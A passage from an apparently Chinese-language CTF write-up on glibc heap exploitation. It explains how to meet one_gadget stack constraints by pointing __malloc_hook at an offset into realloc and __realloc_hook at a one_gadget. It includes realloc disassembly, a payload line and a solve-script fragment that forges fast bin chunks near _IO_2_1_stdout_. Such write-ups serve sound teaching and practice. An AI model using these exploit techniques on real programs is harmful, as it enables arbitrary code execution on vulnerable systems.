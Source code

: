   我们有指向`__malloc_hook`的指针，则问题就好办多了——因为`__realloc_hook`就在`__malloc_hook`旁边

  一般，如果有指向`__malloc_hook`的指针，都是指向`__malloc_hook`周边伪造的fast bin，如下所示
  ![__malloc_hook伪造chunk](malloc_hook伪造chunk.PNG)

  因此，如果我们将`__malloc_hook`设置为`realloc`的地址，同时将`__realloc_hook`的地址设置为**one_gadget**，则实际上仍然相当于执行了**one_gadget**。但是一般函数开始部分都是**push**指令，其会降低栈地址，则我们跳过几个`realloc`的**push**指令的话，仍然会执行**one_gadget**，但是相对栈基址位移处的实际地址变大了，相当于抬高栈帧，则很容易满足**one_gadget**的约束。
  这里首先给出`realloc`部分汇编代码及其偏移，如下所示
  ```x86asm
   84710:	41 57                	push   %r15
   84712:	41 56                	push   %r14
   84714:	41 55                	push   %r13
   84716:	41 54                	push   %r12
   84718:	49 89 f4             	mov    %rsi,%r12
   8471b:	55                   	push   %rbp
   8471c:	53                   	push   %rbx
   8471d:	48 89 fb             	mov    %rdi,%rbx
   84720:	48 83 ec 38          	sub    $0x38,%rsp
   84724:	48 8b 05 a5 f8 33 00 	mov    0x33f8a5(%rip),%rax        # 3c3fd0 <_IO_file_jumps@@GLIBC_2.2.5+0x8f0>
   8472b:	48 8b 00             	mov    (%rax),%rax
   8472e:	48 85 c0             	test   %rax,%rax
   84731:	0f 85 21 02 00 00    	jne    84958 <__libc_realloc@@GLIBC_2.2.5+0x248>
```

  这里展示一下抬栈姿势，我们就以`[rsp + 0x30] = 0`约束为例，其余是类似的。
  如果我们简单的直接修改**__malloc_hook**为**realloc@@GLIBC_2.2.5**，再将**__realloc_hook**更改为**one_gadget**，则其最后面临如下情况
  ![rsp+0x30约束下one_gadget栈上数据1](rsp+0x30约束下one_gadget栈上数据1.PNG)


  根据前面**realloc@GLIBC_2.2.5**汇编代码可以看到，从**realloc**到**one_gadget**，其将栈地址下调了**0x70**，而`[rsp + 0x30 - 0x70] != 0`，即不满足**one_gadget**约束。但是我们发现`[rsp + 0x30 - 0x70 + 0x8 * 4]`处存在满足约束的数据——则我们只需要抬高栈基址0x20，即减少四次`push`指令，即可满足**one_gadget**约束。
  因此，根据前面给出的`realloc`汇编代码，我们将**__malloc_hook**设置为**realloc@@GLIBC_2.2.5 + 8**，仍然将**__realloc_hook**更改为**one_gadget**即可，此时情况如下所示
  ![rsp+0x30约束下one_gadget栈上数据2](rsp+0x30约束下one_gadget栈上数据2.PNG)

  则我们只需要在`__malloc_hook`附近输入如下指令，即可完成**one_gadget**的利用
  ```python
padding * 0xb + p64(lib_base + one_gadget) + p64(lib_base + lib.sym['realloc'] + offset)
```

## 题解和关键说明

  首先，我们需要一个指向**_IO_2_1_stdout_**附近的内存块，一般通过释放超过**fast bin**大小的内存来获取，然后在通过覆盖已有的fast bin链指针，将该fake chunk插入链上，相关代码如下所示
  ```python
	wp_add(r, 0, 0xd0)		#base
	wp_add(r, 2, 0x10)		#base
	wp_delete(r, 0)

	wp_add(r, 1, 0x60)		#base
	wp_add(r, 2, 0x60)		#base + 0x70
	wp_add(r, 3, 0x60)		#base + 0x70 * 2

	wp_delete(r, 2)
	wp_delete(r, 3)
	wp_edit(r, 3, '\x00')
	wp_edit(r, 1, '\xdd\x25')
	wp_add(r, 4, 0x60)
	wp_add(r, 3, 0x60)
	wp_add(r, 2, 0x60)
```
